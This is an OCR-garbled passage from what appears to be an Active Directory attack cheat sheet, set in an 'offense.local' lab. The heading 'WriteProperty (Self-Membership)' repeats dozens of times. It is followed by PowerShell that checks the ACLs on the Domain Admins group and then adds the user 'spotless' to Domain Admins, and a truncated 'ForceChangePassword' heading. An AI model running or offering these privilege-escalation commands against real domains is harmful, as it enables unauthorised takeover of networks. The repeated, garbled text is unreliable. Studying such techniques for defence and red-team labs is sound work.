 **WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**WriteProperty (Self-Membership)**

**
```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```
## **ForceChangePassword**